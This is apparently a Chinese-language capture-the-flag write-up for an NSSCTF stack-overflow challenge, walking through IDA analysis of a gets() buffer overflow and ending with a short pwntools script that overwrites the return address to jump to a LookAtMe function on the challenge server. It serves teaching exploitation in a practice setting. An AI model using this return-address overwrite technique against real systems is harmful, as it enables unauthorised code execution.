



1. ida打开，发现一个函数LookAtMe,看一眼  
  
很好，栈溢出调用一下  

2.   
找到地址000000000040072c  

3. 看main函数，调用init和NSS，在main中return gets(v4),可以实现栈溢出  


4. 分析main函数  
  

使用%rdi传参给gets()函数，main函数首先push %rbp，占8字节，然后申请0x20个字节，作为数组，所以一共有0x28个字节，然后是返回地址，

5. 构造payload
```py
from pwn import*

re=remote("node4.anna.nssctf.cn","28082")
paload=b'b'*(0x20+8)+p64(0x40072c)  
re.sendline(paload)  
re.interactive()
```  
